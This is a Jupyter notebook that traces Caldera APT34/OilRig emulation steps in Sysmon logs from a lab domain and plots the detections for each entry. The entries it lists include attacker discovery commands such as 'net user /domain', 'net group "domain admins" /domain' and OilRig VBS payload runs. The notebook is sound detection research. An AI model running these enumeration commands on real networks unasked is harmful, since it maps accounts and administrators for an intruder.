# Sysmon Event Tracking Analysis - Individual Entry Processing

This notebook processes each Caldera entry individually to demonstrate the event tracking capabilities using the improved `sysmon_event_analysis.py` functions.

## Purpose

Unlike the batch processing script, this notebook allows for:
1. **Individual entry analysis** - Process each Caldera entry separately
2. **Interactive visualization** - Display plots and analysis for each entry
3. **Step-by-step investigation** - Examine detection results entry by entry
4. **Parameter exploration** - Experiment with different detection parameters

## Key Improvements from Old Version

- **Enhanced Detection Algorithms**: Uses improved zero-level detection with adaptive time windows
- **Robust Error Handling**: Comprehensive error handling for each processing step
- **Memory Optimization**: Efficient data processing and memory management
- **Multiple Detection Types**: Support for Type 1 (CommandLine), Type 2A (File Creation), Type 2B (File Deletion)
- **Configuration-Driven**: Parameters loaded from YAML configuration
- **Advanced Analysis**: Multi-mask recursive tracing with connection arrows


## 1. Setup and Imports

Import the required libraries and the improved event tracer functions.

In [172]:
import sys
import os
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import matplotlib.dates as mdates
import json
from datetime import datetime, timedelta
from pathlib import Path
import warnings
warnings.filterwarnings('ignore')

# Import the improved event tracer functions
from sysmon_event_analysis import (
    EventTracer,
    EntryConfig,
    DetectionResult,
    load_config,
    load_sysmon_data,
    load_caldera_data,
    get_config_value,
    canonical
)

print("🎯 Sysmon Event Tracking Analysis - Individual Entry Processing")
print("Using improved sysmon_event_analysis.py functions with enhanced capabilities")
print("=" * 80)

🎯 Sysmon Event Tracking Analysis - Individual Entry Processing
Using improved sysmon_event_analysis.py functions with enhanced capabilities


## 2. Configuration and Data Loading

Load configuration and data using the improved loading functions.

In [173]:
# Load configuration
print("🔧 Loading configuration...")
config = load_config('config.yaml')
print(f"✅ Configuration loaded from config.yaml")

# Display key settings
print(f"\n📋 Key Configuration Settings:")
print(f"   Sysmon File: {get_config_value('data_sources.sysmon_file')}")
print(f"   Caldera File: {get_config_value('data_sources.caldera_file')}")
print(f"   Output Directory: {get_config_value('output.directory')}")
print(f"   Primary Time Window: {get_config_value('time_windows.primary_seconds')}s")
print(f"   Fallback Time Window: {get_config_value('time_windows.fallback_seconds')}s")

🔧 Loading configuration...
✅ Configuration loaded and validated from config.yaml
✅ Configuration loaded from config.yaml

📋 Key Configuration Settings:
   Sysmon File: sysmon-2025-05-04-000001.csv
   Caldera File: apt34-05-04-test-1_event-logs_extracted_information.json
   Output Directory: 5_entry-events-plots
   Primary Time Window: 180s
   Fallback Time Window: 300s


In [174]:
# Load Sysmon data with improved loading functions
print("\n🔧 Loading Sysmon data...")
sysmon_df = load_sysmon_data()
print(f"✅ Sysmon data loaded: {len(sysmon_df):,} events")
print(f"   Memory usage: {sysmon_df.memory_usage(deep=True).sum() / 1024**2:.1f} MB")
print(f"   Event types: {sorted(sysmon_df['EventID'].unique())}")
print(f"   Computers: {list(sysmon_df['Computer'].unique())}")


🔧 Loading Sysmon data...
✅ Sysmon data loaded: 570078 rows
   Time range: 2025-05-04 11:30:00.012000 to 2025-05-04 12:40:00.980000
   Event types: [np.uint8(1), np.uint8(2), np.uint8(3), np.uint8(4), np.uint8(5), np.uint8(6), np.uint8(7), np.uint8(9), np.uint8(10), np.uint8(11), np.uint8(12), np.uint8(13), np.uint8(15), np.uint8(17), np.uint8(18), np.uint8(23), np.uint8(24), np.uint8(25)]
   ⚠️  Data quality warnings: 2
      - High null percentage in columns: {'Protocol': 97.03233592596101, 'SourceIsIpv6': 97.03233592596101, 'SourceIp': 97.03233592596101, 'SourceHostname': 97.03233592596101, 'SourcePort': 97.03233592596101, 'SourcePortName': 97.03233592596101, 'DestinationIsIpv6': 97.03233592596101, 'DestinationIp': 97.03233592596101, 'DestinationHostname': 97.03233592596101, 'DestinationPort': 97.03233592596101, 'DestinationPortName': 97.03233592596101, 'ImageLoaded': 88.70803644413571, 'OriginalFileName': 88.79241086307488, 'Hashes': 88.10373317335522, 'SourceProcessGUID': 89.85858

In [175]:
# Load Caldera data
print("\n🔧 Loading Caldera entries...")
caldera_entries = load_caldera_data()
print(f"✅ Caldera data loaded: {len(caldera_entries)} entries")

# Display sample entry structure
sample_entry_id = list(caldera_entries.keys())[0]
sample_entry = caldera_entries[sample_entry_id]
print(f"\n🔍 Sample entry structure (Entry {sample_entry_id}):")
for key, value in sample_entry.items():
    if isinstance(value, str) and len(value) > 100:
        print(f"   {key}: {value[:100]}...")
    else:
        print(f"   {key}: {value}")


🔧 Loading Caldera entries...
✅ Caldera data loaded: 52 entries
   Entry IDs: ['0', '1', '10', '11', '12', '13', '14', '15', '16', '17', '18', '19', '2', '20', '21', '22', '23', '24', '25', '26', '27', '28', '29', '3', '30', '31', '32', '33', '34', '35', '36', '37', '38', '39', '4', '40', '41', '42', '43', '44', '45', '46', '47', '48', '49', '5', '50', '51', '6', '7', '8', '9']
✅ Caldera data loaded: 52 entries

🔍 Sample entry structure (Entry 0):
   new_command: cscript /nologo computername.vbs
   delegated_timestamp: 2025-05-04 11:36:20.000000
   collected_timestamp: 2025-05-04 11:36:25.000000
   finished_timestamp: 2025-05-04 11:36:26.000000
   tactic: discovery
   technique_name: System Information Discovery
   ability_name: OilRig Execute VBS payload to collect hostname


In [176]:
# Initialize Event Tracer
print("\n🔧 Initializing Event Tracer...")
tracer = EventTracer(sysmon_df, caldera_entries, debug=True)
print(f"✅ Event Tracer initialized with {len(sysmon_df):,} Sysmon events")
print(f"   Memory optimized processing enabled")
print(f"   Ready for individual entry processing")


🔧 Initializing Event Tracer...
✅ Event Tracer initialized with 570,078 Sysmon events
   Memory optimized processing enabled
   Ready for individual entry processing


In [177]:
def get_entry_summary():
    """
    Get a summary of all available Caldera entries.
    """
    print("\n📋 Available Caldera Entries:")
    print("=" * 80)
    
    # Load entry configuration to get computer mappings
    entry_config_file = get_config_value('data_sources.entry_config_file', 'entry_config.csv')
    entry_config_df = pd.read_csv(entry_config_file, header=None, names=['entry_id', 'computer_short', 'totem_eventid'])
    
    # Create mapping of entry_id to computer info
    entry_to_computer = {}
    entry_to_eventid = {}
    for _, row in entry_config_df.iterrows():
        entry_id = str(row['entry_id'])
        computer_full = f"{row['computer_short']}.boombox.local"
        totem_eventid = row['totem_eventid']
        entry_to_computer[entry_id] = computer_full
        entry_to_eventid[entry_id] = totem_eventid
    
    # Check for missing entries (entries in Caldera but not in config)
    missing_entries = []
    
    for entry_id, entry in caldera_entries.items():
        command = entry['new_command']
        timestamp = entry['finished_timestamp']
        
        # Handle missing entries in config
        if entry_id not in entry_to_computer:
            computer = "theblock.boombox.local"  # Default
            eventid = 1  # Default to type1
            missing_entries.append(entry_id)
        else:
            computer = entry_to_computer[entry_id]
            eventid = entry_to_eventid[entry_id]
        
        # Determine method type from EventID
        if eventid == 1:
            method_type = "type1"
        elif eventid == 11:
            method_type = "type2a"
        elif eventid == 23:
            method_type = "type2b"
        else:
            method_type = "unknown"
        
        # Mark missing entries
        missing_mark = " ⚠️" if entry_id in missing_entries else ""
        
        print(f"Entry {entry_id:>2}: {timestamp} | {computer:<25} | {method_type:<7} | {command[:40]}...{missing_mark}")
    
    print(f"\nTotal entries: {len(caldera_entries)}")
    
    if missing_entries:
        print(f"⚠️ Missing in entry_config.csv: {sorted([int(x) for x in missing_entries])}")
    
    # Summary by computer
    computer_counts = {}
    method_counts = {}
    for entry_id in caldera_entries.keys():
        # Handle missing entries
        if entry_id not in entry_to_computer:
            computer = "theblock.boombox.local"
            eventid = 1
        else:
            computer = entry_to_computer[entry_id]
            eventid = entry_to_eventid[entry_id]
        
        if computer not in computer_counts:
            computer_counts[computer] = 0
        computer_counts[computer] += 1
        
        if eventid == 1:
            method_type = "type1"
        elif eventid == 11:
            method_type = "type2a"
        elif eventid == 23:
            method_type = "type2b"
        else:
            method_type = "unknown"
            
        if method_type not in method_counts:
            method_counts[method_type] = 0
        method_counts[method_type] += 1
    
    print(f"\n📊 Summary by Computer:")
    for computer, count in computer_counts.items():
        print(f"   {computer}: {count} entries")
    
    print(f"\n📊 Summary by Method Type:")
    for method, count in method_counts.items():
        print(f"   {method}: {count} entries")

def process_individual_entry(entry_id, method_type="auto", time_window_before=None, time_window_after=None, 
                           show_arrows=False, enable_recursive=True):
    """
    Process a single Caldera entry using the improved event tracer functions.
    
    Args:
        entry_id: Caldera entry ID to process
        method_type: Detection method ('auto', 'type1', 'type2a', 'type2b')
        time_window_before: Time window before finished_timestamp (seconds)
        time_window_after: Time window after finished_timestamp (seconds)
        show_arrows: Whether to show connection arrows in plots
        enable_recursive: Whether to enable recursive tracing
    
    Returns:
        DetectionResult object with analysis results
    """
    
    print(f"\n{'='*80}")
    print(f"🔍 PROCESSING ENTRY {entry_id}")
    print(f"{'='*80}")
    
    try:
        # Get entry data
        if str(entry_id) not in caldera_entries:
            print(f"❌ Entry {entry_id} not found in Caldera data")
            return None
        
        entry = caldera_entries[str(entry_id)]
        
        # Load entry configuration to get computer info
        entry_config_file = get_config_value('data_sources.entry_config_file', 'entry_config.csv')
        entry_config_df = pd.read_csv(entry_config_file, header=None, names=['entry_id', 'computer_short', 'totem_eventid'])
        
        # Find the configuration for this entry
        entry_config_row = entry_config_df[entry_config_df['entry_id'] == entry_id]
        if len(entry_config_row) == 0:
            print(f"⚠️ Entry {entry_id} not found in entry configuration, using default values")
            # Default values for missing entries
            computer_short = "theblock"  # Default computer
            computer_full = f"{computer_short}.boombox.local"
            suggested_eventid = 1  # Default to type1
        else:
            computer_short = entry_config_row.iloc[0]['computer_short']
            computer_full = f"{computer_short}.boombox.local"
            suggested_eventid = entry_config_row.iloc[0]['totem_eventid']
        
        # Display entry information
        print(f"📋 Entry Information:")
        print(f"   Command: {entry['new_command'][:100]}...")
        print(f"   Finished Time: {entry['finished_timestamp']}")
        print(f"   Computer: {computer_full}")
        print(f"   Suggested EventID: {suggested_eventid}")
        
        # Auto-determine method type if not specified
        if method_type == "auto":
            # Use the suggested EventID from configuration
            if suggested_eventid == 1:
                method_type = 'type1'
            elif suggested_eventid == 11:
                method_type = 'type2a'
            elif suggested_eventid == 23:
                method_type = 'type2b'
            else:
                method_type = 'type1'  # Default fallback
        
        # Determine EventID and search column based on method type
        if method_type == 'type1':
            event_id = 1
            search_column = 'CommandLine'
            search_value = entry['new_command']
        elif method_type == 'type2a':
            event_id = 11
            search_column = 'TargetFilename'
            search_value = entry.get('target_filename', entry['new_command'])
        elif method_type == 'type2b':
            event_id = 23
            search_column = 'TargetFilename'
            search_value = entry.get('target_filename', entry['new_command'])
        else:
            print(f"❌ Unknown method type: {method_type}")
            return None
        
        # Use default time windows if not specified
        if time_window_before is None:
            time_window_before = get_config_value('time_windows.primary_seconds', 180)
        if time_window_after is None:
            time_window_after = get_config_value('time_windows.primary_seconds', 180)
        
        print(f"\n🎯 Detection Parameters:")
        print(f"   Method Type: {method_type}")
        print(f"   EventID: {event_id}")
        print(f"   Search Column: {search_column}")
        print(f"   Search Value: {search_value[:100]}...")
        print(f"   Time Window: -{time_window_before}s to +{time_window_after}s")
        print(f"   Recursive Tracing: {enable_recursive}")
        
        # Create EntryConfig object with correct parameters
        entry_config = EntryConfig(
            entry_id=entry_id,
            computer_short=computer_short,
            totem_eventid=event_id
        )
        
        # Perform zero-level detection
        print(f"\n🔍 Performing zero-level detection...")
        start_time = datetime.now()
        result = tracer.detect_zero_level_event(entry_config)
        detection_time = (datetime.now() - start_time).total_seconds()
        
        if result.success:
            print(f"✅ Detection successful!")
            print(f"   Matches found: {result.matches_found}")
            print(f"   Zero-level events: {len(result.zero_level_event)}")
            print(f"   Detection time: {detection_time:.3f} seconds")
            
            # Display sample zero-level events
            if len(result.zero_level_event) > 0:
                print(f"\n📊 Sample Zero-Level Events:")
                event = result.zero_level_event
                print(f"   Event 1: EventID {event['EventID']} at {event['UtcTime']}")
                if method_type == 'type1' and 'CommandLine' in event and pd.notna(event['CommandLine']):
                    print(f"     Command: {event['CommandLine'][:80]}...")
                elif method_type in ['type2a', 'type2b'] and 'TargetFilename' in event and pd.notna(event['TargetFilename']):
                    print(f"     File: {event['TargetFilename']}")
            
            # Apply analysis and generate plot
            print(f"\n📈 Generating analysis plot...")
            if method_type == 'type1':
                plot_filename = tracer.apply_type1_analysis(result, enable_recursive, show_arrows)
            else:  # type2a or type2b
                plot_filename = tracer.apply_type2_analysis(result, show_arrows)
            
            if plot_filename:
                print(f"✅ Plot generated: {plot_filename}")
                
                # Construct full path for the plot
                output_dir = get_config_value('output.directory', '5_entry-events-plots')
                full_plot_path = os.path.join(output_dir, plot_filename)
                print(f"   📊 Plot saved to: {full_plot_path}")
                
                # Display the plot in the notebook
                from IPython.display import Image, display
                try:
                    display(Image(filename=full_plot_path))
                except Exception as e:
                    print(f"⚠️ Could not display plot: {e}")
                    print(f"   Tried to load: {full_plot_path}")
            else:
                print(f"⚠️ Plot generation failed")
        else:
            print(f"❌ Detection failed: {result.error_message}")
        
        return result
        
    except Exception as e:
        print(f"❌ Error processing entry {entry_id}: {e}")
        import traceback
        traceback.print_exc()
        return None

print("✅ Helper functions defined")

✅ Helper functions defined


In [178]:
# Display entry summary
get_entry_summary()


📋 Available Caldera Entries:
Entry  0: 2025-05-04 11:36:26.000000 | theblock.boombox.local    | type1   | cscript /nologo computername.vbs...
Entry  1: 2025-05-04 11:37:26.000000 | theblock.boombox.local    | type1   | cscript /nologo username.vbs...
Entry  2: 2025-05-04 11:38:06.000000 | theblock.boombox.local    | type1   | whoami...
Entry  3: 2025-05-04 11:38:54.000000 | theblock.boombox.local    | type1   | hostname...
Entry  4: 2025-05-04 11:40:01.000000 | theblock.boombox.local    | type1   | ipconfig /all...
Entry  5: 2025-05-04 11:40:44.000000 | theblock.boombox.local    | type1   | net user /domain...
Entry  6: 2025-05-04 11:41:29.000000 | theblock.boombox.local    | type1   | net group /domain...
Entry  7: 2025-05-04 11:42:32.000000 | theblock.boombox.local    | type1   | net group "domain admins" /domain...
Entry  8: 2025-05-04 11:43:08.000000 | theblock.boombox.local    | type1   | net group "Exchange Trusted Subsystem" /...
Entry  9: 2025-05-04 11:44:13.000000 | theblock.

## 4. Helper Functions for Individual Entry Processing

Define functions to process individual entries using the improved event tracer functions.

In [179]:
print("✅ Ready to process individual entries")

✅ Ready to process individual entries


## 6. Individual Entry Processing

Process each Caldera entry individually using the improved event tracer functions. Each entry will be processed in its own cell to allow for interactive analysis.

**Note**: You can modify the parameters for each entry to experiment with different detection settings.


🔍 PROCESSING ENTRY 0
📋 Entry Information:
   Command: cscript /nologo computername.vbs...
   Finished Time: 2025-05-04 11:36:26.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: cscript /nologo computername.vbs...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:10.538] [INFO] Starting detection for Entry 0
[DEBUG] [03:29:10.539] [INFO] Entry 0: 2025-05-04 11:36:26, totem: 'cscript /nologo computername.vbs...'
[DEBUG] [03:29:10.539] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:10.539] [INFO] Time window filtering: 2025-05-04 11:33:26 to 2025-05-04 11:39:26
[DEBUG] [03:29:10.567] [INFO] Events after computer/eventid/time filter: 28
[DEBUG] [03:29:10.568] [INFO] Totem matches found: 2
[DEBUG] [03:29:10.582] [INFO] Multiple Type 1 matches - selected oldest



In [180]:
# Process Entry 0
entry_0_result = process_individual_entry(
    entry_id=0,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 1
📋 Entry Information:
   Command: cscript /nologo username.vbs...
   Finished Time: 2025-05-04 11:37:26.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: cscript /nologo username.vbs...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:11.464] [INFO] Starting detection for Entry 1
[DEBUG] [03:29:11.464] [INFO] Entry 1: 2025-05-04 11:37:26, totem: 'cscript /nologo username.vbs...'
[DEBUG] [03:29:11.464] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:11.465] [INFO] Time window filtering: 2025-05-04 11:34:26 to 2025-05-04 11:40:26
[DEBUG] [03:29:11.492] [INFO] Events after computer/eventid/time filter: 45
[DEBUG] [03:29:11.494] [INFO] Totem matches found: 2
[DEBUG] [03:29:11.494] [INFO] Multiple Type 1 matches - selected oldest within time



In [181]:
# Process Entry 1
entry_1_result = process_individual_entry(
    entry_id=1,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 2
📋 Entry Information:
   Command: whoami...
   Finished Time: 2025-05-04 11:38:06.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: whoami...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:12.353] [INFO] Starting detection for Entry 2
[DEBUG] [03:29:12.353] [INFO] Entry 2: 2025-05-04 11:38:06, totem: 'whoami...'
[DEBUG] [03:29:12.353] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:12.354] [INFO] Time window filtering: 2025-05-04 11:35:06 to 2025-05-04 11:41:06
[DEBUG] [03:29:12.382] [INFO] Events after computer/eventid/time filter: 49
[DEBUG] [03:29:12.384] [INFO] Totem matches found: 2
[DEBUG] [03:29:12.384] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:38:06.141000 (+0.1s from entry)
[DEBUG] [03



In [182]:
# Process Entry 2
entry_2_result = process_individual_entry(
    entry_id=2,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 3
📋 Entry Information:
   Command: hostname...
   Finished Time: 2025-05-04 11:38:54.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: hostname...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:13.069] [INFO] Starting detection for Entry 3
[DEBUG] [03:29:13.070] [INFO] Entry 3: 2025-05-04 11:38:54, totem: 'hostname...'
[DEBUG] [03:29:13.070] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:13.070] [INFO] Time window filtering: 2025-05-04 11:35:54 to 2025-05-04 11:41:54
[DEBUG] [03:29:13.099] [INFO] Events after computer/eventid/time filter: 93
[DEBUG] [03:29:13.101] [INFO] Totem matches found: 2
[DEBUG] [03:29:13.102] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:38:54.143000 (+0.1s from entry)
[DEBU



In [183]:
# Process Entry 3
entry_3_result = process_individual_entry(
    entry_id=3,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 4
📋 Entry Information:
   Command: ipconfig /all...
   Finished Time: 2025-05-04 11:40:01.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: ipconfig /all...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:13.781] [INFO] Starting detection for Entry 4
[DEBUG] [03:29:13.782] [INFO] Entry 4: 2025-05-04 11:40:01, totem: 'ipconfig /all...'
[DEBUG] [03:29:13.782] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:13.783] [INFO] Time window filtering: 2025-05-04 11:37:01 to 2025-05-04 11:43:01
[DEBUG] [03:29:13.810] [INFO] Events after computer/eventid/time filter: 89
[DEBUG] [03:29:13.812] [INFO] Totem matches found: 2
[DEBUG] [03:29:13.812] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:40:01.150000 (+0.1s fr



In [184]:
# Process Entry 4
entry_4_result = process_individual_entry(
    entry_id=4,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 5
📋 Entry Information:
   Command: net user /domain...
   Finished Time: 2025-05-04 11:40:44.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net user /domain...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:14.502] [INFO] Starting detection for Entry 5
[DEBUG] [03:29:14.503] [INFO] Entry 5: 2025-05-04 11:40:44, totem: 'net user /domain...'
[DEBUG] [03:29:14.503] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:14.504] [INFO] Time window filtering: 2025-05-04 11:37:44 to 2025-05-04 11:43:44
[DEBUG] [03:29:14.536] [INFO] Events after computer/eventid/time filter: 90
[DEBUG] [03:29:14.538] [INFO] Totem matches found: 2
[DEBUG] [03:29:14.539] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:40:44.154000 



In [185]:
# Process Entry 5
entry_5_result = process_individual_entry(
    entry_id=5,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 6
📋 Entry Information:
   Command: net group /domain...
   Finished Time: 2025-05-04 11:41:29.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net group /domain...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:15.414] [INFO] Starting detection for Entry 6
